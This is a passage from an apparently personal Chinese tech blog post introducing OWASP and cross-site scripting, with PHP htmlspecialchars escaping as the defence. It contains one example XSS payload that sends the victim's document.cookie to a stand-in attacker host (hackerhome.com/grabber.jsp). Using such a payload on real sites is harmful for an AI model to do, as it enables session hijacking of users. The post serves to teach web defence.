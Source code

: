 ```yaml
---
title: 常見的網站攻擊方式
date: 2021-03-11 15:51:12
tags:
  - 資訊安全
  - XSS
  - SQL injection
  - CSRF
---
```


在討論常見的網站攻擊方式之前，可以先認識一下 **OWASP**。

> Open Web Application Security Project

[OWASP](https://owasp.org/) 是一個線上社群，介紹了各種不同的網路安全問題、每幾年的十大安全問題排名跟範例，完全免費，基本上是所有做資訊安全的聖經。

推薦 techbridge 的 [這篇文章](https://blog.techbridge.cc/2017/05/07/owasp/)，講了 2010 及 2013 的前十大網站攻擊排行，以及 [這篇](https://owasp.org/www-pdf-archive/OWASP_Top_10_2017_%E4%B8%AD%E6%96%87%E7%89%88v1.2.pdf) 是官方在 2017 年十大攻擊手法的中文版本。

## XSS

> Cross-Site-Scripting，俗稱 JavaScript Injection，中文被翻成跨站式腳本攻擊或是跨站攻擊。

XSS 是在使用者可操控的地方，像是留言內容、帳號名稱等地方，惡意寫入程式碼，讓網站載入這些內容時，一起執行這些程式。

常見的可能就是透過插入一個圖片，圖片會自動訪問 hackerhome 上的 grabber.jsp，並將使用者的 cookie 作為 msg 的值，讓受害者的 cookie 遭盜用。

```javascript
<script>document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' document.cookie '
2     width=0 height=0 border=0 />SomeStore');</script>
```

所以要做的事情，就是防範讓伺服器知道這並不是程式碼，而只是一般的文字。可以透過 php 內建的 `htmlspecialchars` 達成這件事。

但要特別注意的是，並不是像 hash 一樣，在輸入密碼後就馬上處理並將 hash 過的內容存在資料庫，而是儲存原本的字元在資料庫，輸出時再經由`htmlspecialchars` 轉化。因為輸入防不勝防，直接解決輸出才能打到痛點。

```php utils.php
<?php
function escape($str) { // 之後就可以呼叫 escape()
  return htmlspecialchars($str, ENT_QUOTES);
}
?>
```

```php index.php
<?php
echo "<div class='comment__info--name'>" . escape($row['nickname']) . "</div>";
echo "<textarea class='comment__text'>" . escape($row['text']) . "</textarea>";
?>
```

### 儲存型
